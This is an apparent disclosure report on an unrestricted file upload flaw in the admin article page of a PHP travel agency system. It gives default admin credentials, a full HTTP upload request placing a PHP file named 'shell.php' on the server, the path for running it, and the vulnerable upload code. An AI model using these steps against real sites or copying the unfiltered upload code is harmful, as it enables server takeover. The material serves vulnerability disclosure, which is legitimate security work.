



# [Online Travel Agency System-File upload vulnerabilities-artical.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/artical.php

**[Vulnerability Location]:** /Travel/admin/artical.php

**[Vulnerability Test]:**

1. First visit http://10.151.222.198/Travel/admin/artical.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `Picture` with the content `<?php phpinfo(); ? >`

   

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/artical.php HTTP/1.1
   Host: 10.151.222.198
   Content-Length: 621
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.151.222.198
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.151.222.198/Travel/admin/artical.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=86dm5d6ncj5mk3db07gti39pb4
   Connection: close
   
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="title"
   
   aaaa
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="file"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="page_type"
   
   home
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="description"
   
   this is a page
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ
   Content-Disposition: form-data; name="save"
   
   submit
   ------WebKitFormBoundaryDN6lMEHoBH36ZZgJ--
   
   ```
   
   The response results are shown in the figure
   
   
   
4. Visit http://10.151.222.198/Travel/admin/artical_view.php, where all articals are displayed, including the article just added, and the path to the image is displayed in the front-end source code.

   

5. Visit http://10.151.222.198/Travel/admin/uploaded/shell.php

   

**[code analysis]:**

In /Travel/admin/artical.php:

```php
<?php
if(isset($_POST['save']))
{
$title=$_POST['title'];	
$description=$_POST['description'];	
$page_type=$_POST['page_type'];	

$dir='uploaded/';
$uploadfile=$dir.basename($_FILES['file']['name']);
if(move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)){
$filename=$_FILES['file']['name'];
}

$query_insert=mysqli_query($con,"INSERT INTO pages(`title`, `picture`, `page_type`,  `description`) VALUES ('$title', '$filename', '$page_type', '$description')" )  or die(mysqli_error($con));
}
?>
```

No filtering is done on uploaded filenames

In /Travel/admin/artical_view.php

```php+HTML
<?php
$sql=mysqli_query($con,"select * from pages ORDER BY 'Aid' DESC")or die("Query Error");
while($row=mysqli_fetch_array($sql)){
	$page_id=$row['page_id'];
?>

// In line 31
" width="120" height="100">
```

And the file address is echoed on the page

